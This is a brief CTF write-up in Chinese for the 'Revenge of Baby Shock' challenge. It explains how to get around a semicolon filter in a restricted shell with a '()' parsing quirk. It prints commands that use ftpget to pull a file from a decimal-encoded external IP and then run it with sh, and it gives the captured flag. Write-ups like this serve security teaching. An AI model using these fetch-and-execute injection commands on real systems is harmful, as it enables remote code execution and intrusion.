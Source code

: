 # Revenge of Baby Shock

看起來前面那題解法是非預期解(?

這次把分號擋掉了

踹了一波加上上題flag，發現 command 有 `()`時，行為會很詭異

最後發現 `ls ()wget` 這樣可以執行任意指令

但是輸入有限制，特殊符號只能用這幾個 `!,=#():+_^`

雖然 `wget` 可以用十進位 ip 繞，但是載下來的檔案是 `index.html`，名字的 `.` 不好繞

最後發現有 `ftpget` 可以用，輕鬆控任意下載檔名

```
> ls ()ftpget 921608994:10001 meow123 meow123
> ls ()sh meow123
```

`/readflag` => `hitcon{r3v3ng3_f0r_semic010n_4nd_th4nks}`

